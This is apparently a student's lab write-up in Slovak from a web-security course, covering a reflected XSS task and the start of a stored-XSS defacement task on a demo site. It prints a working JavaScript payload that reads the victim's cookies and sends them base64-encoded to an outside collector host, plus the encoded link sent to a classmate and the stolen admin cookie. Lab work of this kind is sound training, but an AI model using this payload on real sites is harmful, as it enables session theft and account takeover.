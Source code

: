 Potom som nahral cookie cez url:

https://dev.netvor.sk/ex/?ami=xviest&data=SVA9ODUuMjM3LjIzNC4xMjc7IFVBPU1vemlsbGElMkY1LjAlMjAlMjhXaW5kb3dzJTIwTlQlMjAxMC4wJTNCJTIwV2luNjQlM0IlMjB4NjQlMjklMjBBcHBsZVdlYktpdCUyRjUzNy4zNiUyMCUyOEtIVE1MJTJDJTIwbGlrZSUyMEdlY2tvJTI5JTIwQ2hyb21lJTJGMTE3LjAuMC4wJTIwU2FmYXJpJTJGNTM3LjM2


Keď idem na url 
https://dev.netvor.sk/ex/data/xviest.txt tak si viem cookie zobraziť.

Vyvtoril som si kód v javascripte:

```js
var cookie = document.cookie;
var request = new XMLHttpRequest();

request.open("GET", "https://dev.netvor.sk/ex/?ami=xviest&data=" + btoa(cookie));
request.send();
```


Kód som potom enkódoval do url, ktorú posielam janovi na otvorenie, keď jano klikne na link, zobrazí sa mi jeho cookie:

```
https://xviest.bit.demo-cert.sk/hello.php?name=<script>var%20cookie%20=%20document.cookie;var%20request%20=%20new%20XMLHttpRequest();request.open("GET",%20"https://dev.netvor.sk/ex/?ami=xviest%26data="%20%2B%20btoa(cookie));request.send();</script> 
```

![](image-10.png)

Dekódované cookie:

**SuperSecretAdminCookie=krokodil123; UA=Mozilla%2F5.0%20%28X11%3B%20Linux%20x86_64%29%20AppleWebKit%2F537.36%20%28KHTML%2C%20like%20Gecko%29%20HeadlessChrome%2F107.0.5296.0%20Safari%2F537.36; IP=147.175.204.182**


## 3.3 Break the web using stored XSS
- Stránka “chat.php” obsahuje stored XSS zranitelnosť.
- Nájdite deravú premennú, obídte anti-XSS ochranu v kóde a znefunkčnite stránku pre budúcich návštevníkov.
- Extra body za kreatívnu formu znefunkčnenia :) (html/css/javacript/demo/...)

Najprv som skúsil zadať iba obyčajný message, ktorý sa následne zobrazil na stránke.
![](image-5.png)
